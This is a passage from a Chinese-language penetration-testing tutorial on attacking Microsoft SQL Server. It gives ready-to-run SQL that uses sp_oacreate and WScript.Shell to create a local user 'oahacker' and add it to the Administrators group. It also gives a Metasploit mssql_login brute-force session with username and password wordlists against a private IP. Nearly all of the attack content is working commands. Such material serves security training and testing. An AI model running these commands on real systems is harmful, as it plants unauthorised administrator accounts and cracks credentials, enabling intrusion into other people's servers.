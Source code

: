 > `@shellx` 是一个 `WScript.Shell` 对象的引用，
>
> `'run'` 是要调用的方法名称，
>
> 而 `null` 表示没有传递任何额外的参数给 `run` 方法。
>
> 最后一个参数 '`net user hackabc 123456 /add`' 是**要执行的命令字符串**。

##### 提权

###### （1）添加新用户

```mssql
declare @shellx int
exec sp_oacreate 'wscript.shell',@shellx output
exec sp_oamethod @shellx,'run',null,'net user oahacker 123456 /add'
```

![image-20240727193231141](https://image.201068.xyz/assets/MSSQL/image-20240727193231141.png)

###### （2）执行将用户添加到管理员组的命令

```mssql
declare @shellx int
exec sp_oacreate 'wscript.shell',@shellx output
exec sp_oamethod @shellx,'run',null,'net localgroup Administrators oahacker /add'
```

## 五、MSSQL暴力破解

### 5.1 MSF 暴力破解

```bash
msfconsole

search mssql_login
use auxiliary/scanner/mssql/mssql_login
show options
set rhost 192.168.70.21
set USER_FILE /root/tools/mima/usernameTop500.txt
set PASS_FILE /root/tools/mima/passwordTop1000.txt
set stop_on_success true
run
```

![image-20240727170248034](https://image.201068.xyz/assets/MSSQL/image-20240727170248034.png)

![image-20240727170351248](https://image.201068.xyz/assets/MSSQL/image-20240727170351248.png)

![image-20240727170635273](https://image.201068.xyz/assets/MSSQL/image-20240727170635273.png)

![image-20240727170727700](https://image.201068.xyz/assets/MSSQL/image-20240727170727700.png)
